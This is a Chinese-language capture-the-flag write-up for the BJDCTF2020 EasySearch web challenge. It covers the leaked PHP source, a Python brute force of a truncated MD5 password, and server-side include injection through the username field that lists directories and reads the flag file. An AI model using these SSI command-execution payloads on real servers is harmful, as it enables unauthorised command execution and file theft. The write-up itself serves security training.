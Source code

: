 # [BJDCTF2020]EasySearch

[题目地址](https://buuoj.cn/challenges#[BJDCTF2020]EasySearch)

进入网站毫无头绪，没有头绪就扫目录。dirmap初始配置还没扫出来，只能看[wp](https://blog.csdn.net/weixin_45642610/article/details/115689130)后手动把index.php.swp补到字典里。

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {  //要求登录界面输入的password的md5值前6位是6d0bc1，爆破就好了
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";   //shtml是ssi注入的标志
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);   //每次登录都会把username写入到随机名字的shtml中
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

ssi注入漏洞可以参考这篇[文章](https://www.mi1k7ea.com/2019/09/28/SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#0x02-SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E)。程序直接将用户名写入shtml中，如果我们的用户名是一串有意义的shtml代码，用户名的位置自然就能回显出执行结果。先爆破出password再说。

```python
要求password的md5值的前6个字符为6d0bc1。敲代码（python）：

from hashlib import md5

for i in range(10000000):
    if md5(str(i).encode('utf-8')).hexdigest()[:6] == '6d0bc1':
        print(i)
```

得到密码2020666。登录界面用户名与密码：

`username=<!--#exec cmd="ls ../" -->&password=2020666`

需要找到那个随机名字的shtml文件查看回显。url在服务器发送过来的response里可以看到，每次都不一样。访问得到以下内容：

- Hello,flag_990c66bf85a09c664f0b6741840499b2 index.php index.php.swp public

这flag名够长的。直接cat。

`username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2" -->" -->&password=2020666`

## Flag
> flag{b81f5d63-b86f-4530-9204-fb5cbd9c4888}